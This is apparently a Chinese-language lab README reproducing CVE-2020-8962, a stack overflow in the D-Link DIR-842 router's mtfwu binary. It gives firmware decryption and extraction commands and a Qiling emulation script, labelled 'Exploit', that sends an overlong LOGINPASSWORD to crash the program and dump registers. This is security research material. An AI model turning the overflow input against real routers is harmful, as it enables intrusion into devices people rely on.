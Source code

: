 # D-Link DIR-842 栈溢出漏洞（CVE-2020-8962）

## 漏洞环境

需要解密固件，方法是开启一个 `qemu-user-static` 容器，使用 qemu-mips-static 运行 DIR842C1_FW302b03_middle.bin 的 `usr/sbin/encimg` 程序对 DIR842C1_FW313WWb05.bin.org 进行解密，得到 DIR842C1_FW313WWb05.bin。

```sh
$ docker run --privileged --rm -v $PWD/firmware:/root/firmware -it firmianay/qemu-user-static /bin/bash
$ ./qemu-mips-static -L . ./usr/sbin/encimg ./DIR842C1_FW313WWb05.bin.org

# 98868352a4913aee2d2da4acd8e1a04e  DIR842C1_FW302b03_middle.bin
# c40930278051bbf66f24a657676dd5b4  DIR842C1_FW313WWb05.bin
# ae141c12535cae08e49e4876410ebb9d  DIR842C1_FW313WWb05.bin.org
```

本目录下对固件已经是解密版本，可以直接使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/DIR842C1_FW313WWb05.bin"
```

构建本例镜像：

```sh
# 构建镜像
$ docker-compose -f docker-compose-qiling.yml build

# 进入容器
$ ssh -D 2345 root@127.0.0.1 -p 1234
```

## 漏洞复现

## Exploit

```py
from qiling import *

def my_syscall_sysinfo(ql, sysinfo_info, *args, **kwargs):
    ql.mem.write(sysinfo_info, b"AAAA") # uptime
    regreturn = 0
    ql.nprint("sysinfo(0x%x) = %d" % (sysinfo_info, regreturn))
    ql.os.definesyscall_return(regreturn)

# dump all registers
def dump_reg(ql, *args, **kwargs):
    for idx, val in ql.reg.save().items():
        if not isinstance(idx, int):
            print(idx, ":", hex(val))
            
    breakpoint()

class Fake_stdin:
    def read(self, size, *args, **kwargs):
        return b'ACTION=login&LOGINPASSWORD=' + b'A' * 0x248

    def fileno(self, *args, **kwargs):
        return 0

if __name__ == "__main__":

    envs = {
            "REQUEST_METHOD": "POST",
            "REQUEST_URI": "/MTFWU",
            "CONTENT_TYPE": "application/x-www-form-urlencoded",
            "HTTP_MTFWU_ACT": "Login",
            "HTTP_COOKIE": "uid=AAAA",
            "CONTENT_LENGTH": str(27+0x248), 
            }

    ql = Qiling(["squashfs-root/usr/sbin/mtfwu"], "squashfs-root", 
                output="default",
                env=envs,           # setting environment variables 
                stdin=Fake_stdin()) # hijack stdin with Fake_stdin
                
    ql.set_syscall("sysinfo", my_syscall_sysinfo)  # syscall hook for sysinfo
    ql.set_syscall("_newselect", lambda *_: None)  # hook syscall _newselect with anonymous NOP function to avoid manual input requirement
    ql.hook_address(dump_reg, 0x41db40)            # breakpoint before return and dump all register
    ql.run()
```

## 参考链接

- <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8962>
- <https://ctrsec.io/index.php/2020/02/12/cve-2020-8962-d-link-dir-842-stack-based-buffer-overflow>
- <https://ucgjhe.github.io/post/cve_2020_8962>
